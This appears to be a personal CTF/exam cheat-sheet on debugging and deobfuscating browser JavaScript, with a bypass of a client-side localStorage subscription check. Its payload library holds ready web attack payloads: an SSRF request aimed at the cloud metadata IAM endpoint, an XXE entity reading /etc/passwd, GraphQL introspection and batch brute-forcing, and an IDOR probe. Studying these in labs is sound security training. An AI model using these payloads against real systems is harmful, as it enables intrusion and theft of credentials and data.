

> [!summary]  
> **Purpose** — Cheat‑sheet for rapidly dissecting browser‑based JavaScript during exams or CTFs: set up the environment, hit the right breakpoints, unmask minified/obfuscated code, bypass weak client‑side controls, and document findings with repeatable payloads.

---

## 1  Environment Setup

```bash
# Lab bootstrap
unzip awh-frontend-lab-1.zip
cd awh-frontend-lab-1
npm i && node app.js          # serve on :3000
code .                        # open VS Code
```

|Action|VS Code|Chrome DevTools|
|---|---|---|
|Editor|Source read‑through|Live breakpoints / console|
|Beautify|`Shift+Alt+F` or Prettier|Resource Saver plugin|
|Diff|Compare `main.js` vs `main.min.js`|n/a|

---

## 2  File & Asset Recon

|Path|What to look for|
|---|---|
|`/js/`|Core JS, possible duplicates in `/css/` or inline `<script>`|
|`/css/`|Hidden JS in CTFs|
|`index.ejs / html`|Script selector — swap to readable build|

---

## 3  Dynamic Debugging Workflow

1. **Dock DevTools left ⇔ app right** for side‑by‑side watch.
    
2. **Sources ▶ Event Listener Breakpoints** → keyboard, mouse, timer.
    
3. **Manual breakpoints** on suspicious functions (`addTodo`, `escapeHTML`).
    
4. **Console / Watch panel** to inspect or mutate vars at runtime.
    
5. **Persist log** (`⋮` ▶ Settings ▶ Console ▶ Preserve log).
    

> [!tip]  
> Start from UI action → follow the call stack down, not the other way around.

---

## 4  Breakpoint Reference

|Type|Use‑case|Example|
|---|---|---|
|Event Listener|Trigger‑driven logic|`keydown`, `setInterval`|
|XHR/fetch|API tampering|Pause on request start|
|DOM Mutation|Client‑side templating|Detect innerHTML sinks|
|Conditional|Bypass loops|`i === 42`|

---

## 5  Console & Watch Quick‑wins

```js
// Real‑time encode bypass check
JSON.parse(localStorage.getItem('todos'))

// Patch function at runtime
escapeHTML = x => x  // disable sanitiser
```

> [!info]  
> **Watch panel** persists variables across breakpoints—no need to re‑type.

---

## 6  Asset Extraction & Beautification

```text
1. Install “Chrome Resource Saver”.
2. Click Save → exports localhost_3000/ bundle.
3. Re‑open `main.js` beautified in VS Code.
```

> [!important]  
> Beautify first, **de‑minify** only if source maps missing.

---

## 7  Minification vs Obfuscation

|Feature|Minified|Obfuscated|
|---|---|---|
|Goal|Faster load|Hide logic|
|Readability|Low|Very low|
|Dead code|No|Yes|
|Eval / packers|Rare|Common|
|Reversal speed|Minutes|Hours+|

---

## 8  De‑obfuscation Tactics

1. **Beautify (`beautifier.io`, VS Code)** to restore formatting.
    
2. Scan for `eval(function(p,a,c,k,e,d)` → packed payload.
    
3. **de4js / matthewfl.com/unpacker** → unpack.
    
4. **Replace** obfuscated vars in console to reveal runtime values.
    
5. **Dynamic trace** > static grep when time‑boxed.
    

---

## 9  Packed Code Attack Flow



---

## 10  Capstone Bypass (LocalStorage Gate)

|Stage|Goal|Example Payload|
|---|---|---|
|1 Locate key|Find check in code|`localStorage.getItem("someKey")`|
|2 Decode value|Reveal `subscriber`|`String.fromCharCode(...array)`|
|3 Inject|Satisfy condition|`localStorage.setItem("subscriber","subscriber")`|
|4 Reload|Access article|F12 → Refresh|

---

## 11  Payload Library

> **Copy‑ready blocks** — adapt domain/IP as needed.

### Introspection (GraphQL)

```graphql
{
  __schema {
    types { name fields { name } }
  }
}
```

### SSRF

```bash
curl -X POST "http://victim.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/"
```

### XXE

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<upload>
  <data>&xxe;</data>
</upload>
```

### Batching / Brute‑force (GraphQL)

```graphql
[
  { "query":"{user(id:\"1\"){email}}" },
  { "query":"{user(id:\"2\"){email}}" }
]
```

### IDOR probe

```http
GET /api/users/1337/profile HTTP/1.1
X-Auth-Token: attacker
```

---

## 12  Step‑by‑Step Checklist

-  Start local server / open target URL
    
-  Dock DevTools; enable **Preserve log**
    
-  Enumerate **Sources** panel; search `eval(` and `innerHTML`
    
-  Add **Event Listener** breakpoints (keyboard / click / timer)
    
-  Hit UI action; pause execution
    
-  Use **Console** to inspect / patch functions
    
-  Dump **localStorage / cookies** for client‑side auth clues
    
-  Extract & beautify assets with Resource Saver
    
-  Identify minified ↔ obfuscated sections; unpack if packed
    
-  Document findings, payloads, remediation
    

---

## 13  Tools & Alternatives

|Category|Primary|Alternatives|
|---|---|---|
|Browser debug|Chrome DevTools|Firefox DevTools, Edge|
|Asset dump|Resource Saver|`wget --mirror`, Burp Suite Extender|
|Beautify|beautifier.io|unminify.com, JSNice|
|Unpack|de4js|matthewfl unpacker|
|Decode|CyberChef|base64 cli, `xxd`|
|Blind OOB|Interact.sh|Burp Collaborator, Webhook.site|

---

## Key Takeaways

> [!important]
> 
> - Target **runtime behaviour first**; breakpoints expose truth faster than static diff.
>     
> - Minified ≠ secure — unminify and read. Obfuscation slows you, not stops you.
>     
> - Never trust client‑side checks (length, Base64, localStorage). Replicate, then bypass.
>     
> - Keep a personal payload crib‑sheet (see § 11) for rapid exploitation across labs.
>     

_Last updated: {{DATE:YYYY-MM-DD}}_